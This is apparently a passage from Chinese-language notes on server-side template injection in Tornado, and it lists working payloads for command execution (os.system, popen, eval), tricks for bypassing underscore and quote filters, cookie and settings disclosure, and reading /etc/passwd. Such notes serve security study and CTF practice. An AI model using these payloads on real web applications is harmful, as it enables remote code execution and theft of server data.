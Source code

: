 
**其他函数**（需要在settings中指定）:

- `xhtml_unescape`: HTML解码
- `url_unescape`: URL解码
- `json_decode`: 解开JSON
- `utf8`: UTF8编码
- `to_unicode`: UTF8解码
- `native_str`: UTF8解码
- `to_basestring`: 历史遗留功能，现在和`to_unicode`是一样的作用
- `recursive_unicode`: 把可迭代对象中的所有元素进行`to_unicode`

### 模版

Tornado 中模板渲染函数在有两个

`render`
`render_string`

Tornado中SSTI 手法基本上兼容 `jinja2、mako` 的 SSTI 手法

```py
{{ __import__("os").system("whoami") }}
{% apply __import__("os").system %}id{% end %}
{% raw __import__("os").system("whoami") %}
```

#### 利用 RequestHandler

为了方便下面把 tornado.web.RequestHandler 称为 handler。需要注意的是，handler 是有 request 属性的，所以理论上 handler 要比 request 实用。

```py
{{handler.get_argument('yu')}}   #比如传入?yu=123则返回值为123
{{handler.cookies}}  #返回cookie值
{{handler.get_cookie("data")}}  #返回cookie中data的值
{{handler.decode_argument('\u0066')}}  #返回f，其中\u0066为f的unicode编码
{{handler.get_query_argument('yu')}}  #比如传入?yu=123则返回值为123
{{handler.settings}}  #比如传入application.settings中的值
```

#### `global()`函数全局调用&绕过`_`

我们可以发现在tornado中是可以直接使用`global()`函数的，更令我们兴奋的是竟然可以直接调用一些python的初始方法，比如`import、eval、print、hex`等，这下似乎我们的payload可以更加简洁了

```py
{{__import__("os").popen("ls").read()}}
{{eval('__import__("os").popen("ls").read()')}}
```

其中第二种方法更多的是为了我们刚才讲到的目的，绕过对_的过滤。

```py
{{eval(handler.get_argument('yu'))}}
?yu=__import__("os").popen("ls").read()
```

#### 绕过`.`

因为tornado中没有过滤器，这样的话我们想要绕过对于.的过滤就有些困难了。而如果想要绕过对于引号的过滤，可以将上面的payload改成如下格式

`{{eval(handler.get_argument(request.method))}}`
然后看下请求方法，如果是get的话就可以传`?GET=__import__("os").popen("ls").read()`，post同理

#### 给出一些payload

```py
1、读文件
{% extends "/etc/passwd" %}
{% include "/etc/passwd" %}

```
